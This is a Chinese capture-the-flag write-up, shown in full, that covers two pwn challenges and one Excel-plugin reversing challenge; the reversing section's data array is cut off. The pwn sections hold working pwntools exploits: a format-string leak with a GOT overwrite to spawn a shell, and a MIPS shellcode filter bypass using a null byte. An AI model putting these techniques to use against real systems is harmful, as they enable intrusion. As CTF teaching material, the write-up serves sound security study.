


# PWN -> easy_LzhiFTP (fmt、static overflow)

## 题目分析

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

分析程序逻辑，首先需要登录

```c
__int64 sub_1455()
{
  char s2[4]; // [rsp+0h] [rbp-10h] BYREF
  int v2; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v2 = rand() % 115;
  *(_DWORD *)s2 = v2 * rand() % 200;
  puts("################-- ichunqiu --################");
  puts("Welcome to IMLZH1-FTP Server");
  puts("IMLZH1-FTP:) want get flag??");
  printf("Username: ");
  read(0, byte_4120, 0x20uLL);
  printf("Hello %s", byte_4120);
  printf("Input Password: ");
  read(0, s1, 0x20uLL);
  if ( strcmp(s1, s2) )
  {
    puts("Password error.");
    exit(0);
  }
  puts("Login succeeded.");
  dword_4960 = 1;
  return 0LL;
}
```
登录密码调试拿到rand值即可。

```c
  printf("do you like my Server??(yes/No)");
  fgets(byte_4968, 8, stdin);
  if ( !strncmp(byte_4968, "No", 2uLL) )
  {
    printf("Your Choice:");
    printf(byte_4968);                          // fmt
    puts("\nNo Thank you liking.");
  }
  else if ( !strncmp(byte_4968, "yes", 3uLL) )
  {
    printf("Your Choice:");
    printf(byte_4968);
    puts("\nThank you liking.");
  }
  while ( 1 )
  {
    printf("IMLZH1-FTP> ");
    sub_15E3(s1, 22LL);
    if ( !strncmp(s1, "touch", 5uLL) && idx <= 16 && strlen(s1) > 6 )// offbyone -> static overflow
    {
      strncat(&filename[8 * idx], &s1[6], 7uLL);
      puts("touch file success!!");
      *((_QWORD *)&content_ptr + idx) = malloc(0x100uLL);
      printf("write Context:");
      read(0, *((void **)&content_ptr + idx), 0x38uLL);
      printf("The content of %s is: ", &filename[8 * idx]);
      printf("%s\n", *((const char **)&content_ptr + idx));
      ++idx;
    }
```
后续`printf("do you like my Server??(yes/No)");`处有一个fmt，touch多touch一个，会导致溢出覆盖content_ptr，导致在edit的时候可以实现任意地址写。
```c
   if ( !strncmp(s1, "edit", 4uLL) )
    {
      buf = 0;
      puts("idx:");
      read(0, &buf, 3uLL);
      buf = atoi((const char *)&buf);
      if ( buf > 15 )
      {
        puts("Error,");
      }
      else
      {
        printf("Content: ");
        read(0, *((void **)&content_ptr + buf), 0x20uLL);
        printf("%s\n", *((const char **)&content_ptr + buf));
      }
    }
```
同时观察到ls命令会有system函数，参数为函数名，如果构造函数名为`/bin/sh`，puts的got表改为system即可实现getshell

## 思路

1. fmt泄露程序基地址
2. 添加16个文件，删除释放idx为0的文件，再添加第17个文件，此时content_ptr的第0个位置为被覆盖为filename，我们让filename为puts@got
3. 通过编辑第0个位置的文件，即可需修改puts@got为任意地址
4. 执行ls，如果filename有/bin/sh即可拿到shell

## exp
```python

# -*- coding: UTF-8 -*-
from pwn import *
from pwnlib.util.iters import mbruteforce 

context.log_level = 'debug'
context.arch = "amd64"
context.terminal = ["/usr/bin/tmux","sp","-h"]
binary = 'easy_LzhiFTP'
local = 1
if local == 1:
    #io=process(argv=['qemu-mipsel','-g','1234','-L','./','pwn'])
    io=process(argv=['./easy_LzhiFTP'])
else:
    io=remote('127.0.0.1',49156)
elf=ELF(binary)

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, '\x00'))
uu64 = lambda data		: u64(data.ljust(8, '\x00'))
ur64 = lambda data		: u64(data.rjust(8, '\x00'))


sla('Username: ','1')
sla('Password: ',p64(0xa00000072))
sla('Server??(yes/No)','yes%6$p')

ru('0x')
leak_addr = int(rn(12), 16)
lg('leak_addr')
elf_base = leak_addr - 0x2096
lg('elf_base')
puts_got = elf.got['puts'] + elf_base
system_plt = elf_base + elf.plt['system']

for i in range(16):
    sla('IMLZH1-FTP> ','touch /bin/sh\x00')
    sla('write Context:','d1ag0n')

sla('IMLZH1-FTP> ','del')
sla('idx:', '0')

sla('IMLZH1-FTP> ','touch ' + p64(puts_got))
sla('write Context:','d1ag0n')

sla('IMLZH1-FTP> ','edit')
sla('idx:', '0')
sa('Content: ', p64(system_plt))

sla('IMLZH1-FTP> ','ls')
#dbg()
#pause()
irt()
```

# PWN -> sigin_shellcode (shellcode的绕过)

## 题目分析

```bash
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
mips小端程序，没开任何保护。梳理下程序逻辑
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // $v0

  init(argc, argv, envp);
  logo();
  while ( 1 )
  {
    menu();
    signal(14, (__sighandler_t)handler);
    alarm(0x14u);
    v3 = my_getinput();
    if ( v3 == 2 )
      break;
    if ( v3 == 3 )
    {
      puts("\n[*]Shopping Time!");
      shopping(); //买攻击力
    }
    else
    {
      if ( v3 != 1 )
        exit(0);
      down();//获得金币，打怪兽
    }
  }
  puts("Disappointed!");
  exit(0);
}
```
首先看down函数里的get_coin函数为获得金币函数
```c
int get_coin()
{
  int v0; // $v0
  char *IO_write_base; // $v0
  char v2; // $v0
  int v4; // [sp+18h] [+18h]
  FILE *stream; // [sp+1Ch] [+1Ch]
  char v6; // [sp+20h] [+20h]
  char v7[12]; // [sp+24h] [+24h] BYREF

  srand(0x1BF52u);
  fbss = rand() % 114514 % (Floor_num + 1);
  puts("There are some coins.\nHow much do you want?");
  v4 = 0;
  
  ...
  ...
  coin_sum += atoi(v7);
  return coin_sum;
}
```
程序会生成[0-Floor_num]范围的随机数，srand初始化固定seed，可以实现伪随机数预测，因为伪随机是固定的，这个字节写一个类似程序输出前100个数值，即可得到，但是可能由于架构和libc的问题，本地mips架构glibc的库生成的随机数和题目的uclibc的不同，所以解决方法是
1. 调试，dump出题目生成的100个随机数
2. 穷举，失败会输出Thief程序退出，构造[1,2,....,100]这样的输入，逐个递减尝试，知道程序不输出Thief即可。
3. 构造和题目一样的libc和架构环境，编写代码直接输出100个随机数

相对如果有和题目一样的环境，可以写代码输出，但是在没有环境的情况下，我使用的是穷举的办法（可能有点笨233）

再往后看，拿到金币后就要打怪兽，在此之前要购买战斗力值
```c
int shopping()
{
  int v1; // [sp+18h] [+18h]
  int v2; // [sp+1Ch] [+1Ch]

  v1 = coin_sum;
  printf("[*]Your COIN: %d\n", coin_sum);
  puts("Welcome to secret shop!\nSome weapon for you :)");
  puts("1. Normal Stick");
  puts("2. Mahogany Sword");
  puts("3. Excalibur");
  puts("Which one u wanna buy? ");
  puts("> ");
  v2 = my_getinput();
  if ( v2 == 1 )
  {
    if ( v1 < 100 )
    {
      puts("Your don't have enough coins!");
      exit(0);
    }
    coin_sum = v1 - 100;
    attack += 100;
    return printf("Your ATK is %d now\n", attack);
  }
  else if ( v2 == 2 )
  {
    if ( v1 < 200 )
    {
      puts("Your don't have enough coins!");
      exit(0);
    }
    coin_sum = v1 - 200;
    attack += 200;
    return printf("Your ATK is %d now\n", attack);
  }
  else
  {
    if ( v2 != 3 )
    {
      printf("Be quite!");
      exit(0);
    }
    if ( v1 < 2551 )
    {
      puts("Your don't have enough coins!");
      exit(0);
    }
    coin_sum = v1 - 2551;
    attack += 2551;
    return printf("Your ATK is %d now\n", attack);
  }
```
这里我们一次性把金币买完，因为攻击怪兽要2751滴血，也就是我们100层楼赚到的金币最多就能买2751，所以这里是必须要把100个rand数值拿到，尽可能多的买金币，不然金币数是不够打怪兽的。

买完金币后，可以开启打怪兽了，battle函数

```c
int battle()
{
  unsigned int v0; // $v0
  size_t i; // [sp+18h] [+18h]
  int v3; // [sp+1Ch] [+1Ch]
  int v4; // [sp+20h] [+20h]
  int (*v5)(void); // [sp+24h] [+24h]
  char v6[80]; // [sp+28h] [+28h] BYREF

  puts("[-]The boss's DEF is 2751\n[-]The boss's ATK is 9999");
  printf("[-]Your DEF is 0\n[-]Your ATK is %d\n", attack);
  puts("[-]Now toss a coin to decide who attack first");
  v0 = time(0);
  srand(v0);
  v3 = rand() % 2;
  printf("[*]The COIN is %d\n", v3);
  if ( v3 == 1 )
  {
    puts("[+]Boss get the first attack!");
    puts("[+]0 - 9999 = -9999");
    puts("You Died!!");
    exit(0);
  }
  if ( v3 )
  {
    printf("Woring!");
    exit(0);
  }
  puts("[+]You get the first attack!");
  puts("[+]Attacking...");
  v4 = attack - 2751;
  if ( attack - 2751 < 0 )
  {
    printf("Your ATK is %d\n", attack);
    exit(0);
  }
  puts("You beat the boss!!");
  puts("Now open the box which the Princess in.");
  puts("I have already give you a useful_tools.");
  puts("Shellcode > ");
  memset(v6, 0, sizeof(v6));
  read(0, v6, 0x10u);
  v5 = (int (*)(void))v6;
  for ( i = 0; i < strlen(v6); ++i )
  {
    if ( !check(v6[i]) )
    {
      puts("[*]BOX: Forbidden!");
      exit(0);
    }
  }
  useful_tools();
  return v5();
}
```
有1/2的概率我们先攻击，如果我们先攻击我们就赢了，可以执行shellcode，但是此时shellocde有白名单限制（check函数有判断），只能是可见字符，如何绕过？发现循环中用strlen(v6)去获得shellcode长度，使用`\x00`截断即可绕过，但是现在只能输入16字节的shellcode，再看看程序中的useful_tools，发现在实现了puts输出后还进行了一系列操作

```asm
.text:00400BA0                 addiu   $a0, $v0, (aHacking - 0x400000)  # "Hacking...\n"
.text:00400BA4                 la      $v0, puts
.text:00400BA8                 move    $t9, $v0
.text:00400BAC                 jalr    $t9 ; puts
.text:00400BB0                 nop
.text:00400BB4                 lw      $gp, 0x18+var_8($fp)
.text:00400BB8                 li      $a0, 0x69622F2F
.text:00400BC0                 li      $a1, 0x68732F6E
.text:00400BC8                 li      $t0, 0
.text:00400BCC                 sw      $a0, 0x18+var_20($sp)
.text:00400BD0                 sw      $a1, 0x18+var_1C($sp)
.text:00400BD4                 sw      $t0, 0x18+var_18($sp)
.text:00400BD8                 addiu   $a0, $sp, 0x18+var_20
.text:00400BDC                 li      $t0, 0x24020FAB
.text:00400BE4                 li      $a1, 0xC
.text:00400BE8                 sw      $t0, 0x18+arg_30($sp)
.text:00400BEC                 sw      $a1, 0x18+arg_34($sp)
.text:00400BF0                 nop
.text:00400BF4                 move    $sp, $fp
.text:00400BF8                 lw      $ra, 0x18+var_s4($sp)
.text:00400BFC                 lw      $fp, 0x18+var_s0($sp)
.text:00400C00                 addiu   $sp, 0x20
.text:00400C04                 jr      $ra
.text:00400C08                 nop
```
1. 将/bin/sh放到栈里，设置a0为/bin/sh
2. 在shellcode后面增加 
```
0x7fffee38:  li      v0,4011
0x7fffee3c:  syscall
```
3. 跳转回返回地址处执行shellcode

所以我们只需要构造a1、a2为0即可拿shell

## 思路

1. 获取100个rand数值赚足够多金币，购买ATK
2. \x00绕过check
3. 设置a1、a2为0即可拿shell

## exp

```python

# -*- coding: UTF-8 -*-
from pwn import *
from pwnlib.util.iters import mbruteforce 

context.log_level = 'debug'
context.arch = "mips"
context.endian = "little"
context.terminal = ["/usr/bin/tmux","sp","-h"]
binary = 'pwn'
local = 1
if local == 1:
    io=process(argv=['qemu-mipsel','-g','1234','-L','./','pwn'])
    #io=process(argv=['qemu-mipsel','-L','./','pwn'])
else:
    io=remote('39.106.131.193',43268)
e=ELF(binary)

l64 = lambda      :u64(io.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
l32 = lambda      :u32(io.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
rl = lambda	a=False		: io.recvline(a)
ru = lambda a,b=True	: io.recvuntil(a,b)
rn = lambda x			: io.recvn(x)
sn = lambda x			: io.send(x)
sl = lambda x			: io.sendline(x)
sa = lambda a,b			: io.sendafter(a,b)
sla = lambda a,b		: io.sendlineafter(a,b)
irt = lambda			: io.interactive()
dbg = lambda text=None  : gdb.attach(io, text)
lg = lambda s			: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data		: u32(data.ljust(4, '\x00'))
uu64 = lambda data		: u64(data.ljust(8, '\x00'))
ur64 = lambda data		: u64(data.rjust(8, '\x00'))


randnum = [i+1 for i in range(100)]
randnum = [
0, 1, 2, 1, 4, 5, 4, 5, 8, 9, 8, 5, 5, 11, 14, 5, 16, 17, 5, 9, 11, 19, 3, 5, 4, 5, 17, 25, 14, 29, 30, 5, 8, 33, 4, 17, 32, 5, 5, 29, 33, 11, 0, 41, 44, 3, 6, 5, 46, 29, 50, 5, 47, 17, 19, 53, 5, 43, 52, 29, 32, 61, 53, 5, 44, 41, 60, 33, 26, 39, 1, 53, 52, 69, 29, 5, 74, 5, 29, 69, 44, 33, 36, 53, 84, 43, 14, 85, 81, 89, 18, 49, 92, 53, 24, 5, 93, 95, 8, 29
]
print randnum
gg = randnum

def gg_func():
    io=process(argv=['qemu-mipsel','-L','./','pwn'])
    for k in range(len(gg)):
        try:
            io.sendlineafter('Go> \n','1')
            io.sendlineafter('much do you want?\n',str(gg[k]))     
            msg = io.recvn(0x20)
            if 'You have coins' in msg:
                continue
        except:
            gg[k] -= 1
            io.close()
            io.shutdown()
            io.kill()
            print('++++++',str(k),str(gg[k]),str(sum(gg)))
            break
            

def get_coin():
    for i in range(len(randnum)-1):
        sla('Go> \n','1')
        sla('much do you want?\n',str(randnum[i]))

        
def get_attack(idx):
    sla('Go> \n','3')
    sla('> \n',str(idx))

'''
# get random
for i in range(300):
    gg_func()

print(gg)
'''
shellcode = '''
li $a1,0
li $a2,0
'''
print(shellcode)
print(len(asm(shellcode)))
#pause()
get_coin()
get_attack(3)
get_attack(2)
try:
    sla('Go> \n','1')
    sla('much do you want?\n','1')
    #sla('Shellcode > \n',asm(shellcode))
    sa('Shellcode > \n',asm(shellcode))
    irt()
except:
    pass

```

# RE -> emoi_connect (office插件、连连看)

题目为C#写的office插件，完成了连连看的基本功能，第一次见还挺新颖的题，代码关于插件的一些操作，看不太懂，问问gpt

```
这段代码是用C#语言编写的，用于在Microsoft Office Excel中创建新的工作表，并将一个48 x 48的数组的值写入到其中。以下是代码中主要的步骤：

使用app对象打开Excel并显示该应用程序。
获取当前活动的工作簿并将其赋值给wb对象。
通过调用Sheets属性获取工作簿的第一个工作表，并将其赋值给sheet1对象。
使用双重循环，从数组中取出每个元素并将其写入到工作表中，使用Cells属性和指定的行列来访问单元格，使用SetMember方法将单元格的值设置为数组元素的值。
对范围“A1”到“Y50”应用水平居中对齐。
为工作表的SelectionChange事件添加一个处理程序，该处理程序被称为Select_Unit。
请注意，该代码中还有一些使用Lambda表达式的技巧，以及在静态类中使用的匿名类型。此外，代码还使用了Interop技术，这是一种允许.NET应用程序与COM组件进行交互的方法。
这段代码是在前面的代码中注册的SelectionChange事件的处理程序。当用户选择一个或多个单元格时，将会调用该方法。

首先，代码创建一个列表对象，并使用foreach循环将Target参数中的每个单元格添加到列表中。接下来，代码检查所选单元格的数量是否为2，如果是，则使用动态绑定调用一个委托来更改一个名为obj2的对象的值。如果所选单元格的数量不是2，则直接将flag变量赋值给obj2。

整段代码复杂度比较高，使用了大量的动态绑定 (dynamic binding) 技术，这是一种在运行时确定调用哪个方法或访问哪个属性的技术。
继续上面的代码，这部分应该是在处理前面的代码中通过动态绑定创建的obj2对象。

如果obj2的值为false，则调用Game.<>o__6.<>p__3委托并使用二元逻辑运算 (Logical AND) 将其与list[1].get_Value(Type.Missing)的比较结果进行 AND 操作，然后将结果赋值给obj4。否则，obj4的值等于obj3。

整段代码中的目的是跟踪用户选择的单元格是否跨越了两个单元格，如果两个单元格都被选中，则采取一些特殊的操作。由于代码中使用了大量的动态绑定技术，因此可读性不是很好。这也是建议在代码编写过程中尽量避免使用动态绑定的原因之一。
这段代码继续处理前面的代码中通过动态绑定创建的obj4对象。

如果obj4的值为false，则调用Game.<>o__6.<>p__6委托并使用二元逻辑运算 (Logical AND) 将其与指定的字符串 “\ud83d\udca5” 进行比较，并将结果赋值给obj6。

无论obj4的值是什么，最终的结果都将保存在obj6中。
这段代码继续处理前面的代码中通过动态绑定创建的obj6对象。

如果obj6的值为false，则调用Game.<>o__6.<>p__9委托并使用二元逻辑运算 (Logical AND) 将其与指定的字符串 “\ud83d\udca5” 进行比较，并将结果赋值给arg5。

无论obj6的值是什么，最终的结果都将保存在arg5中。
这段代码判断用户选择的单元格中是否有两个单元格被同时选中，且这两个单元格中是否都有指定的字符串 “\ud83d\udca5”，如果满足条件，则将这两个单元格中的值交换，并且计算单元格中数字的总和。

首先，代码调用先前为true/false操作创建的动态绑定委托，并使用逻辑AND运算符检查arg5的值。如果arg5的值为true，则继续执行后面的操作。

然后，代码创建一个表示两个字符Unicode码点的数组，并使用LINQ查询语句将其值设置为list[1].get_Value()中字符的Unicode码点。接下来，代码计算这两个字符所表示的Unicode码点。

接下来，代码使用已计算出的Unicode码点，从number数组中减去这两个单元格的行和列的乘积。最后，代码使用交换法将两个单元格中的值互换，并调用check方法重新计算单元格中数字的总和。

总的来说，这段代码的主要作用是处理用户在Excel中选择单元格时所做的操作，并将它们转换为对应的计算步骤和结果。
这段代码的主要功能是检查单元格中的数字是否符合要求，并根据结果显示消息框。

代码中使用两层循环访问名为sheet1的Excel工作表中的48×48个单元格。然后，代码创建两个动态绑定委托，将单元格的值与指定的字符串 “\ud83d\udca5” 进行比较。如果两个字符相等，则返回。

如果所有单元格中都不包含字符串 “\ud83d\udca5”，则显示一个消息框。该消息框将number数组中存储的数字数组转换为ASCII码，并显示在消息框中。

总的来说，这段代码的主要作用是检查Excel中的单元格是否符合要求，并在单元格中放置了正确的字符和数字，以帮助用户完成谜题。
这里的 array[0] 和 array[1] 是一个长度为2的整数数组，它存储了一个 Unicode 字符的 UTF-16 编码，以便将其转换为 Unicode 码点。

在 UTF-16 编码中，基本多文种平面（BMP）中的每个字符由两个 16 位编码（也称为编码点）表示。第一个编码点使用高位编码（high surrogate），其范围为 0xD800~0xDBFF，第二个编码点使用低位编码（low surrogate），其范围为 0xDC00~0xDFFF。这意味着一个字符的 UTF-16 编码可以表示为两个 16 位编码的组合，这两个编码分别存储在数组中。

因此，代码中的 array[0] 存储高位编码，array[1] 存储低位编码。
list[0] 和 list[1] 分别代表 Excel 表格中的两个单元格。 list[0] 表示第一个单元格，list[1] 表示第二个单元格。

```
大概意思就是类似连连看，一样的数据会消除，然后对消除的数据进行计算,关键代码：
```C#
int[] array = (from c in Game.<>o__6.<>p__14.Target(Game.<>o__6.<>p__14, list[1].get_Value(Type.Missing))
select (int)c).ToArray<int>();
int num = (array[0] - 55296) * 1024 + array[1] - 56320 + 65536 - 128512;
this.number[num] -= (list[1].Row - 1) * (list[1].Column - 1);
this.number[num] -= (list[0].Row - 1) * (list[0].Column - 1);
list[0].set_Value(Type.Missing, list[1].set_Value(Type.Missing, "\ud83d\udca5"));
```
array[0]为高位编码，array[1]为低位编码，然后进行运算，number分别减去两个单元格的`ROW*Column`，由于两个单元格array值相同，可等价为对每一个单元个进行如下运算
```C#
int num = (array[0] - 55296) * 1024 + array[1] - 56320 + 65536 - 128512;
this.number[num] -= (list[i].Row - 1) * (list[i].Column - 1);
```
## exp

```python
array=[]
for i in range(48):
    array.append([0]*48)
array[0][0] = "d83dde08"
array[0][1] = "d83dde11"
array[0][2] = "d83dde14"
array[0][3] = "d83dde0e"
array[0][4] = "d83dde0c"
array[0][5] = "d83dde06"
array[0][6] = "d83dde24"
array[0][7] = "d83dde2e"
array[0][8] = "d83dde2e"
array[0][9] = "d83dde1f"
array[0][10] = "d83dde2a"
array[0][11] = "d83dde02"
array[0][12] = "d83dde22"
array[0][13] = "d83dde10"
array[0][14] = "d83dde29"
array[0][15] = "d83dde19"
array[0][16] = "d83dde2d"
array[0][17] = "d83dde0e"
array[0][18] = "d83dde2c"
array[0][19] = "d83dde05"
array[0][20] = "d83dde09"
array[0][21] = "d83dde26"
array[0][22] = "d83dde1b"
array[0][23] = "d83dde25"
array[0][24] = "d83dde1c"
array[0][25] = "d83dde24"
array[0][26] = "d83dde11"
array[0][27] = "d83dde28"
array[0][28] = "d83dde1d"
array[0][29] = "d83dde17"
array[0][30] = "d83dde1b"
array[0][31] = "d83dde01"
array[0][32] = "d83dde11"
array[0][33] = "d83dde0f"
array[0][34] = "d83dde1c"
array[0][35] = "d83dde20"
array[0][36] = "d83dde24"
array[0][37] = "d83dde0b"
array[0][38] = "d83dde00"
array[0][39] = "d83dde01"
array[0][40] = "d83dde05"
array[0][41] = "d83dde16"
array[0][42] = "d83dde11"
array[0][43] = "d83dde21"
array[0][44] = "d83dde12"
array[0][45] = "d83dde07"
array[0][46] = "d83dde04"
array[0][47] = "d83dde1b"
array[1][0] = "d83dde0a"
array[1][1] = "d83dde08"
array[1][2] = "d83dde02"
array[1][3] = "d83dde18"
array[1][4] = "d83dde2c"
array[1][5] = "d83dde29"
array[1][6] = "d83dde25"
array[1][7] = "d83dde2c"
array[1][8] = "d83dde08"
array[1][9] = "d83dde2b"
array[1][10] = "d83dde05"
array[1][11] = "d83dde0a"
array[1][12] = "d83dde12"
array[1][13] = "d83dde26"
array[1][14] = "d83dde11"
array[1][15] = "d83dde05"
array[1][16] = "d83dde19"
array[1][17] = "d83dde14"
array[1][18] = "d83dde1f"
array[1][19] = "d83dde29"
array[1][20] = "d83dde2c"
array[1][21] = "d83dde10"
array[1][22] = "d83dde11"
array[1][23] = "d83dde2e"
array[1][24] = "d83dde14"
array[1][25] = "d83dde25"
array[1][26] = "d83dde27"
array[1][27] = "d83dde16"
array[1][28] = "d83dde07"
array[1][29] = "d83dde26"
array[1][30] = "d83dde09"
array[1][31] = "d83dde08"
array[1][32] = "d83dde18"
array[1][33] = "d83dde2f"
array[1][34] = "d83dde23"
array[1][35] = "d83dde09"
array[1][36] = "d83dde13"
array[1][37] = "d83dde1e"
array[1][38] = "d83dde03"
array[1][39] = "d83dde0c"
array[1][40] = "d83dde28"
array[1][41] = "d83dde16"
array[1][42] = "d83dde2e"
array[1][43] = "d83dde19"
array[1][44] = "d83dde19"
array[1][45] = "d83dde2b"
array[1][46] = "d83dde0b"
array[1][47] = "d83dde23"
array[2][0] = "d83dde1c"
array[2][1] = "d83dde09"
array[2][2] = "d83dde07"
array[2][3] = "d83dde2e"
array[2][4] = "d83dde1d"
array[2][5] = "d83dde1e"
array[2][6] = "d83dde12"
array[2][7] = "d83dde2a"
array[2][8] = "d83dde02"
array[2][9] = "d83dde2c"
array[2][10] = "d83dde2f"
array[2][11] = "d83dde03"
array[2][12] = "d83dde04"
array[2][13] = "d83dde18"
array[2][14] = "d83dde2a"
array[2][15] = "d83dde1b"
array[2][16] = "d83dde24"
array[2][17] = "d83dde11"
array[2][18] = "d83dde26"
array[2][19] = "d83dde2f"
array[2][20] = "d83dde17"
array[2][21] = "d83dde0b"
array[2][22] = "d83dde21"
array[2][23] = "d83dde24"
array[2][24] = "d83dde0a"
array[2][25] = "d83dde28"
array[2][26] = "d83dde09"
array[2][27] = "d83dde2c"
array[2][28] = "d83dde0d"
array[2][29] = "d83dde0f"
array[2][30] = "d83dde28"
array[2][31] = "d83dde14"
array[2][32] = "d83dde1d"
array[2][33] = "d83dde00"
array[2][34] = "d83dde21"
array[2][35] = "d83dde1d"
array[2][36] = "d83dde05"
array[2][37] = "d83dde27"
array[2][38] = "d83dde0b"
array[2][39] = "d83dde14"
array[2][40] = "d83dde28"
array[2][41] = "d83dde17"
array[2][42] = "d83dde0d"
array[2][43] = "d83dde28"
array[2][44] = "d83dde1d"
array[2][45] = "d83dde08"
array[2][46] = "d83dde2b"
array[2][47] = "d83dde24"
array[3][0] = "d83dde0d"
array[3][1] = "d83dde0d"
array[3][2] = "d83dde0c"
array[3][3] = "d83dde05"
array[3][4] = "d83dde2b"
array[3][5] = "d83dde0f"
array[3][6] = "d83dde2b"
array[3][7] = "d83dde17"
array[3][8] = "d83dde22"
array[3][9] = "d83dde07"
array[3][10] = "d83dde03"
array[3][11] = "d83dde0d"
array[3][12] = "d83dde2e"
array[3][13] = "d83dde03"
array[3][14] = "d83dde0b"
array[3][15] = "d83dde2e"
array[3][16] = "d83dde22"
array[3][17] = "d83dde26"
array[3][18] = "d83dde2d"
array[3][19] = "d83dde22"
array[3][20] = "d83dde22"
array[3][21] = "d83dde14"
array[3][22] = "d83dde27"
array[3][23] = "d83dde25"
array[3][24] = "d83dde22"
array[3][25] = "d83dde01"
array[3][26] = "d83dde20"
array[3][27] = "d83dde00"
array[3][28] = "d83dde19"
array[3][29] = "d83dde05"
array[3][30] = "d83dde11"
array[3][31] = "d83dde15"
array[3][32] = "d83dde0c"
array[3][33] = "d83dde0a"
array[3][34] = "d83dde1e"
array[3][35] = "d83dde15"
array[3][36] = "d83dde11"
array[3][37] = "d83dde21"
array[3][38] = "d83dde14"
array[3][39] = "d83dde18"
array[3][40] = "d83dde19"
array[3][41] = "d83dde02"
array[3][42] = "d83dde1d"
array[3][43] = "d83dde2c"
array[3][44] = "d83dde1c"
array[3][45] = "d83dde15"
array[3][46] = "d83dde0c"
array[3][47] = "d83dde1e"
array[4][0] = "d83dde13"
array[4][1] = "d83dde16"
array[4][2] = "d83dde0f"
array[4][3] = "d83dde11"
array[4][4] = "d83dde07"
array[4][5] = "d83dde26"
array[4][6] = "d83dde2f"
array[4][7] = "d83dde0a"
array[4][8] = "d83dde15"
array[4][9] = "d83dde03"
array[4][10] = "d83dde2c"
array[4][11] = "d83dde0f"
array[4][12] = "d83dde09"
array[4][13] = "d83dde2f"
array[4][14] = "d83dde26"
array[4][15] = "d83dde29"
array[4][16] = "d83dde0a"
array[4][17] = "d83dde1b"
array[4][18] = "d83dde1f"
array[4][19] = "d83dde28"
array[4][20] = "d83dde1b"
array[4][21] = "d83dde25"
array[4][22] = "d83dde17"
array[4][23] = "d83dde04"
array[4][24] = "d83dde0a"
array[4][25] = "d83dde00"
array[4][26] = "d83dde09"
array[4][27] = "d83dde07"
array[4][28] = "d83dde27"
array[4][29] = "d83dde05"
array[4][30] = "d83dde28"
array[4][31] = "d83dde1a"
array[4][32] = "d83dde16"
array[4][33] = "d83dde11"
array[4][34] = "d83dde05"
array[4][35] = "d83dde1a"
array[4][36] = "d83dde04"
array[4][37] = "d83dde05"
array[4][38] = "d83dde03"
array[4][39] = "d83dde24"
array[4][40] = "d83dde12"
array[4][41] = "d83dde09"
array[4][42] = "d83dde0c"
array[4][43] = "d83dde2d"
array[4][44] = "d83dde18"
array[4][45] = "d83dde0a"
array[4][46] = "d83dde05"
array[4][47] = "d83dde04"
array[5][0] = "d83dde0e"
array[5][1] = "d83dde06"
array[5][2] = "d83dde01"
array[5][3] = "d83dde2f"
array[5][4] = "d83dde1f"
array[5][5] = "d83dde0c"
array[5][6] = "d83dde19"
array[5][7] = "d83dde2e"
array[5][8] = "d83dde15"
array[5][9] = "d83dde20"
array[5][10] = "d83dde17"
array[5][11] = "d83dde2e"
array[5][12] = "d83dde09"
array[5][13] = "d83dde10"
array[5][14] = "d83dde0f"
array[5][15] = "d83dde10"
array[5][16] = "d83dde04"
array[5][17] = "d83dde0a"
array[5][18] = "d83dde2f"
array[5][19] = "d83dde0d"
array[5][20] = "d83dde0c"
array[5][21] = "d83dde0b"
array[5][22] = "d83dde25"
array[5][23] = "d83dde22"
